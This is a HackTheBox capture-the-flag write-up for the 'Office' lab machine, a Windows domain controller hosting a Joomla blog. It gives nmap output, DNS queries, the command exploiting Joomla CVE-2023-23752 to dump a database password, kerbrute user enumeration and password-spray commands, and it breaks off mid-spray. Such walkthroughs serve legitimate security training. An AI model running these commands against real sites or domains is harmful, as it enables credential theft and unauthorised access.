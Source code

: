 ```yaml
---
layout: default_1
title: "Office - HTB"
date: 2024-04-20
tags: writeup hackthebox office active directory domain controller
---
```


# HTB Office Write Up
![HTB Office](/assets/2024-04-20-writeups-office-htb/machine_info.png "HTB Office")


## Introduction
A Active Directory Domain Controller server, with a web server for the Company's blog.

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Home
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-robots.txt: 16 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-06-22 19:59:49Z)
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-22T20:01:21+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
| -----BEGIN CERTIFICATE-----
| MIIFyzCCBLOgAwIBAgITQAAAAAMdA83RpYN55AAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGb2ZmaWNl
| MRUwEwYDVQQDEwxvZmZpY2UtREMtQ0EwHhcNMjMwNTEwMTIzNjU4WhcNMjQwNTA5
| MTIzNjU4WjAYMRYwFAYDVQQDEw1EQy5vZmZpY2UuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA15Wa3dfyWK0+9iRvZ2H4VWeXwLq40Ee6jzcu8buW
| D/Hp4rubrQa5X2/iS3NdXMsxamygq4s7R5AJa9Ys3I7sm59ctlCo/vjVag0hbqhU
| 5qjBJ1GCQxdiaqRj3BqAO5Tbt9RUH9oeU/UQMzzUQqwKL/Z+twyh9aL6HDnbPXvM
| IeDewk5y/S6M8DlOc6ORZQfBg8NuroyiPYCNb1+WhednfBB0ahNFqzq2MTDLXMNM
| bLeX2zeO/+dgF1ohsQ9qhFyBtFSsaCMR33PMKNs7Iqji42+O5jVNCvUICelUroex
| 1VrC7ogW/JVSqHY4J+6mXZHJhn7xhu6rJKtFDHLeheheRQIDAQABo4IC4DCCAtww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzA5BgNVHREEMjAwoB8GCSsGAQQBgjcZ
| AaASBBA2idyIqAZET5Xm5iLN7Fc3gg1EQy5vZmZpY2UuaHRiMB0GA1UdDgQWBBRS
| FLVfJhlc3XkBccZHJjyKvpRS1TAfBgNVHSMEGDAWgBRgOpmCFktRJECTymSHaes3
| Vx3p9jCBxAYDVR0fBIG8MIG5MIG2oIGzoIGwhoGtbGRhcDovLy9DTj1vZmZpY2Ut
| REMtQ0EsQ049REMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9b2ZmaWNlLERDPWh0Yj9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxk
| YXA6Ly8vQ049b2ZmaWNlLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPW9mZmljZSxE
| Qz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRp
| b25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBABw9WEKbYyfAE7PZ0Plb7lxB
| Ftvjpqh2Q9RkdSlxQNdWMfSsZozN6UNTG7mgJBB/T9vZpi8USJTGwf1EfygiDbm1
| yofBMvpqLAXg4ANvWXTDChYSumhlt7W+gJzTgWd4mgRp576acFojnNCqQRhYCD8r
| 6r/PIwlCDSwfLExxhQs7ZL3Jkqt/fP85ic3W9GuzwI9isPZmwsezP/korptA7utb
| sJHn2bydwf907VX2usW8yRmpuRZyvfsbYHYjJqFgohB5dh26ltEQz2vX6y4Mte4L
| 024aNx/gANh3F4gFXpGrAWdVxnHXc1QV9OVRHO+FAL30xdhosJ4D4HdRTDjCfqw=
|_-----END CERTIFICATE-----
443/tcp   open  ssl/http      syn-ack ttl 127 Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| tls-alpn:
|_  http/1.1
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
|_http-title: 403 Forbidden
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4:4cc9:9e84:b26f:9e63:9f9e:d229:dee0
| SHA-1: b023:8c54:7a90:5bfa:119c:4e8b:acca:eacf:3649:1ff6
| -----BEGIN CERTIFICATE-----
| MIIBnzCCAQgCCQC1x1LJh4G1AzANBgkqhkiG9w0BAQUFADAUMRIwEAYDVQQDEwls
| b2NhbGhvc3QwHhcNMDkxMTEwMjM0ODQ3WhcNMTkxMTA4MjM0ODQ3WjAUMRIwEAYD
| VQQDEwlsb2NhbGhvc3QwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGBAMEl0yfj
| 7K0Ng2pt51+adRAj4pCdoGOVjx1BmljVnGOMW3OGkHnMw9ajibh1vB6UfHxu463o
| J1wLxgxq+Q8y/rPEehAjBCspKNSq+bMvZhD4p8HNYMRrKFfjZzv3ns1IItw46kgT
| gDpAl1cMRzVGPXFimu5TnWMOZ3ooyaQ0/xntAgMBAAEwDQYJKoZIhvcNAQEFBQAD
| gYEAavHzSWz5umhfb/MnBMa5DL2VNzS+9whmmpsDGEG+uR0kM1W2GQIdVHHJTyFd
| aHXzgVJBQcWTwhp84nvHSiQTDBSaT6cQNQpvag/TaED/SEQpm0VqDFwpfFYuufBL
| vVNbLkKxbK2XwUvu0RxoLdBMC/89HqrZ0ppiONuQ+X2MtxE=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
| -----BEGIN CERTIFICATE-----
| MIIFyzCCBLOgAwIBAgITQAAAAAMdA83RpYN55AAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGb2ZmaWNl
| MRUwEwYDVQQDEwxvZmZpY2UtREMtQ0EwHhcNMjMwNTEwMTIzNjU4WhcNMjQwNTA5
| MTIzNjU4WjAYMRYwFAYDVQQDEw1EQy5vZmZpY2UuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA15Wa3dfyWK0+9iRvZ2H4VWeXwLq40Ee6jzcu8buW
| D/Hp4rubrQa5X2/iS3NdXMsxamygq4s7R5AJa9Ys3I7sm59ctlCo/vjVag0hbqhU
| 5qjBJ1GCQxdiaqRj3BqAO5Tbt9RUH9oeU/UQMzzUQqwKL/Z+twyh9aL6HDnbPXvM
| IeDewk5y/S6M8DlOc6ORZQfBg8NuroyiPYCNb1+WhednfBB0ahNFqzq2MTDLXMNM
| bLeX2zeO/+dgF1ohsQ9qhFyBtFSsaCMR33PMKNs7Iqji42+O5jVNCvUICelUroex
| 1VrC7ogW/JVSqHY4J+6mXZHJhn7xhu6rJKtFDHLeheheRQIDAQABo4IC4DCCAtww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzA5BgNVHREEMjAwoB8GCSsGAQQBgjcZ
| AaASBBA2idyIqAZET5Xm5iLN7Fc3gg1EQy5vZmZpY2UuaHRiMB0GA1UdDgQWBBRS
| FLVfJhlc3XkBccZHJjyKvpRS1TAfBgNVHSMEGDAWgBRgOpmCFktRJECTymSHaes3
| Vx3p9jCBxAYDVR0fBIG8MIG5MIG2oIGzoIGwhoGtbGRhcDovLy9DTj1vZmZpY2Ut
| REMtQ0EsQ049REMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9b2ZmaWNlLERDPWh0Yj9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxk
| YXA6Ly8vQ049b2ZmaWNlLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPW9mZmljZSxE
| Qz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRp
| b25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBABw9WEKbYyfAE7PZ0Plb7lxB
| Ftvjpqh2Q9RkdSlxQNdWMfSsZozN6UNTG7mgJBB/T9vZpi8USJTGwf1EfygiDbm1
| yofBMvpqLAXg4ANvWXTDChYSumhlt7W+gJzTgWd4mgRp576acFojnNCqQRhYCD8r
| 6r/PIwlCDSwfLExxhQs7ZL3Jkqt/fP85ic3W9GuzwI9isPZmwsezP/korptA7utb
| sJHn2bydwf907VX2usW8yRmpuRZyvfsbYHYjJqFgohB5dh26ltEQz2vX6y4Mte4L
| 024aNx/gANh3F4gFXpGrAWdVxnHXc1QV9OVRHO+FAL30xdhosJ4D4HdRTDjCfqw=
|_-----END CERTIFICATE-----
|_ssl-date: 2024-06-22T20:01:21+00:00; +8h00m01s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-22T20:01:21+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
| -----BEGIN CERTIFICATE-----
| MIIFyzCCBLOgAwIBAgITQAAAAAMdA83RpYN55AAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGb2ZmaWNl
| MRUwEwYDVQQDEwxvZmZpY2UtREMtQ0EwHhcNMjMwNTEwMTIzNjU4WhcNMjQwNTA5
| MTIzNjU4WjAYMRYwFAYDVQQDEw1EQy5vZmZpY2UuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA15Wa3dfyWK0+9iRvZ2H4VWeXwLq40Ee6jzcu8buW
| D/Hp4rubrQa5X2/iS3NdXMsxamygq4s7R5AJa9Ys3I7sm59ctlCo/vjVag0hbqhU
| 5qjBJ1GCQxdiaqRj3BqAO5Tbt9RUH9oeU/UQMzzUQqwKL/Z+twyh9aL6HDnbPXvM
| IeDewk5y/S6M8DlOc6ORZQfBg8NuroyiPYCNb1+WhednfBB0ahNFqzq2MTDLXMNM
| bLeX2zeO/+dgF1ohsQ9qhFyBtFSsaCMR33PMKNs7Iqji42+O5jVNCvUICelUroex
| 1VrC7ogW/JVSqHY4J+6mXZHJhn7xhu6rJKtFDHLeheheRQIDAQABo4IC4DCCAtww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzA5BgNVHREEMjAwoB8GCSsGAQQBgjcZ
| AaASBBA2idyIqAZET5Xm5iLN7Fc3gg1EQy5vZmZpY2UuaHRiMB0GA1UdDgQWBBRS
| FLVfJhlc3XkBccZHJjyKvpRS1TAfBgNVHSMEGDAWgBRgOpmCFktRJECTymSHaes3
| Vx3p9jCBxAYDVR0fBIG8MIG5MIG2oIGzoIGwhoGtbGRhcDovLy9DTj1vZmZpY2Ut
| REMtQ0EsQ049REMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9b2ZmaWNlLERDPWh0Yj9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxk
| YXA6Ly8vQ049b2ZmaWNlLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPW9mZmljZSxE
| Qz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRp
| b25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBABw9WEKbYyfAE7PZ0Plb7lxB
| Ftvjpqh2Q9RkdSlxQNdWMfSsZozN6UNTG7mgJBB/T9vZpi8USJTGwf1EfygiDbm1
| yofBMvpqLAXg4ANvWXTDChYSumhlt7W+gJzTgWd4mgRp576acFojnNCqQRhYCD8r
| 6r/PIwlCDSwfLExxhQs7ZL3Jkqt/fP85ic3W9GuzwI9isPZmwsezP/korptA7utb
| sJHn2bydwf907VX2usW8yRmpuRZyvfsbYHYjJqFgohB5dh26ltEQz2vX6y4Mte4L
| 024aNx/gANh3F4gFXpGrAWdVxnHXc1QV9OVRHO+FAL30xdhosJ4D4HdRTDjCfqw=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: office.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-06-22T20:01:21+00:00; +8h00m01s from scanner time.
| ssl-cert: Subject: commonName=DC.office.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC.office.htb
| Issuer: commonName=office-DC-CA/domainComponent=office
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-10T12:36:58
| Not valid after:  2024-05-09T12:36:58
| MD5:   b83f:ab78:db28:734d:de84:11e9:420f:8878
| SHA-1: 36c4:cedf:9185:3d4c:598c:739a:8bc7:a062:4458:cfe4
| -----BEGIN CERTIFICATE-----
| MIIFyzCCBLOgAwIBAgITQAAAAAMdA83RpYN55AAAAAAAAzANBgkqhkiG9w0BAQsF
| ADBEMRMwEQYKCZImiZPyLGQBGRYDaHRiMRYwFAYKCZImiZPyLGQBGRYGb2ZmaWNl
| MRUwEwYDVQQDEwxvZmZpY2UtREMtQ0EwHhcNMjMwNTEwMTIzNjU4WhcNMjQwNTA5
| MTIzNjU4WjAYMRYwFAYDVQQDEw1EQy5vZmZpY2UuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEA15Wa3dfyWK0+9iRvZ2H4VWeXwLq40Ee6jzcu8buW
| D/Hp4rubrQa5X2/iS3NdXMsxamygq4s7R5AJa9Ys3I7sm59ctlCo/vjVag0hbqhU
| 5qjBJ1GCQxdiaqRj3BqAO5Tbt9RUH9oeU/UQMzzUQqwKL/Z+twyh9aL6HDnbPXvM
| IeDewk5y/S6M8DlOc6ORZQfBg8NuroyiPYCNb1+WhednfBB0ahNFqzq2MTDLXMNM
| bLeX2zeO/+dgF1ohsQ9qhFyBtFSsaCMR33PMKNs7Iqji42+O5jVNCvUICelUroex
| 1VrC7ogW/JVSqHY4J+6mXZHJhn7xhu6rJKtFDHLeheheRQIDAQABo4IC4DCCAtww
| LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
| MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
| eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
| MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
| AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzA5BgNVHREEMjAwoB8GCSsGAQQBgjcZ
| AaASBBA2idyIqAZET5Xm5iLN7Fc3gg1EQy5vZmZpY2UuaHRiMB0GA1UdDgQWBBRS
| FLVfJhlc3XkBccZHJjyKvpRS1TAfBgNVHSMEGDAWgBRgOpmCFktRJECTymSHaes3
| Vx3p9jCBxAYDVR0fBIG8MIG5MIG2oIGzoIGwhoGtbGRhcDovLy9DTj1vZmZpY2Ut
| REMtQ0EsQ049REMsQ049Q0RQLENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENO
| PVNlcnZpY2VzLENOPUNvbmZpZ3VyYXRpb24sREM9b2ZmaWNlLERDPWh0Yj9jZXJ0
| aWZpY2F0ZVJldm9jYXRpb25MaXN0P2Jhc2U/b2JqZWN0Q2xhc3M9Y1JMRGlzdHJp
| YnV0aW9uUG9pbnQwgb0GCCsGAQUFBwEBBIGwMIGtMIGqBggrBgEFBQcwAoaBnWxk
| YXA6Ly8vQ049b2ZmaWNlLURDLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBT
| ZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPW9mZmljZSxE
| Qz1odGI/Y0FDZXJ0aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRp
| b25BdXRob3JpdHkwDQYJKoZIhvcNAQELBQADggEBABw9WEKbYyfAE7PZ0Plb7lxB
| Ftvjpqh2Q9RkdSlxQNdWMfSsZozN6UNTG7mgJBB/T9vZpi8USJTGwf1EfygiDbm1
| yofBMvpqLAXg4ANvWXTDChYSumhlt7W+gJzTgWd4mgRp576acFojnNCqQRhYCD8r
| 6r/PIwlCDSwfLExxhQs7ZL3Jkqt/fP85ic3W9GuzwI9isPZmwsezP/korptA7utb
| sJHn2bydwf907VX2usW8yRmpuRZyvfsbYHYjJqFgohB5dh26ltEQz2vX6y4Mte4L
| 024aNx/gANh3F4gFXpGrAWdVxnHXc1QV9OVRHO+FAL30xdhosJ4D4HdRTDjCfqw=
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
57567/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: DC, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows
~~~
</div>

</details>


## Investigation
To start the investigation we can perform some DNS queries and check if it is possible to perform a Zone Transfer
```
$ dig axfr office.htb 10.10.11.3

; <<>> DiG 9.18.26 <<>> axfr office.htb @10.10.11.3
;; global options: +cmd
; Transfer failed.

$ dig any office.htb @10.10.11.3

< ... SNIP ... >

;; ANSWER SECTION:
office.htb.             600     IN      A       10.250.0.30
office.htb.             600     IN      A       10.10.11.3
office.htb.             3600    IN      NS      dc.office.htb.
office.htb.             3600    IN      SOA     dc.office.htb. hostmaster.office.htb. 63 900 600 86400 3600

;; ADDITIONAL SECTION:
dc.office.htb.          1200    IN      A       10.10.11.3

< ... SNIP ... >
```
Although the DNS queries didn't returned any subdomain, we can still bruteforce it with `ffuf`.  
But first, let's check the web server.  
![main website](/assets/2024-06-22-writeups-office-htb/main_website.png "main website")

Looks like a CMS server, checking the html source code for any information:  
```
<meta name="generator" content="Joomla! - Open Source Content Management">
```

It is a Joomla CMS, accessing the [hacktricks joomla enumeration page][ht-joomla].  
The version is 4.2.7, this means it's vulnerable to [CVE-2023-23752][CVE-2023-23752].  
This vulnerability has a straigh forward exploitation, just access `http://<host>/api/index.php/v1/config/application?public=true`.
Using a [public exploit][CVE-2023-23752-exploit] just to pretty print.  
```
$ python3 juid.py -a http://10.10.11.3/

[USERS]
Name: Tony Stark
ID: 474
Username: Administrator
Email: Administrator@holography.htb
Register date: 2023-04-13 23:27:32
Group name: Super Users
Able to send e-mail: Yes

[CONFIGS]
Database type: mysqli
Host: localhost
User: root
Password: H0lOgrams4reTakIng0Ver754!
Database: joomla_db
Database prefix: if2tx_
Encryption: 0
```

It is not possible to login into the Joomla Administration Panel with the dumped password.  
For now, the blog enumeration reached a dead end.

Let's look into the Active Directory environment.
Using [enum4linux-ng][enum4linux-ng] to a fast enumeration.
```
$ python3 enum4linux-ng 10.10.11.3

OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: ''
OS build: '20348'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[+] Found domain information via SMB
NetBIOS computer name: DC
NetBIOS domain name: OFFICE
DNS domain: office.htb
FQDN: DC.office.htb
Derived membership: domain member
Derived domain: OFFICE
```

It's not possible to access anymore services with a null user.  
Now, we need to enumerate some users on the Active Directory and check for weak passwords and password reuse.  
RID Brute is not and option, so using [kerbrute][kerbrute] will be necessary.  
Enumerating users using this method normally takes a long time, so when I see that's a Active Directory running, this is one of the first things that I do.
```
$ ./kerbrute_linux_amd64 -v --dc 10.10.11.3 -d office.htb userenum xato-lowercase.txt

< ... SNIP ... >
administrator@office.htb
dlanor@office.htb
dmichael@office.htb
dwolfe@office.htb
etower@office.htb
ewhite@office.htb
hhogan@office.htb

< ... SNIP ... >
```

Then, testing for password reuse first:
```
$ ./kerbrute_linux_amd64 -v --dc 10.10.11.3 -d office.htb passwordspray ~/office/users.txt 'H0lOgrams4reTakIng0Ver754!'

< ... SNIP ... >
dlanor@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
etower@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
ewhite@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
administrator@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
dmichael@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
dwolfe@office.htb:H0lOgrams4reTakIng0Ver754! - [Root cause: KDC_Error] KDC_Error: AS Exchange Error: kerberos error response from KDC: KRB Error: (37) KRB_AP_ERR_SKEW Clock skew     too great
hhogan@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password

< ... SNIP ... >
```

The `KRB_AP_ERR_SKEW Clock skew` error is pretty common, it happens when the client and server time are different.  
One way I like to solve this problem is using the server NTP service, getting the time with python and setting to the system.
The python3 script is the following:
```python3
import ntplib
from time import ctime
c = ntplib.NTPClient()
response = c.request('office.htb')
print(ctime(response.tx_time))
```

Save it to ntp.py and then setting the system time:
```
$ sudo date -s "$(python3 ntp.py)"
```

Performing the password spray again:  
```
$ ./kerbrute_linux_amd64 -v --dc 10.10.11.3 -d office.htb passwordspray ~/office/users.txt 'H0lOgrams4reTakIng0Ver754!'

< ... SNIP ... >
hhogan@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
dlanor@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
ewhite@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
dmichael@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
administrator@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
etower@office.htb:H0lOgrams4reTakIng0Ver754! - Invalid password
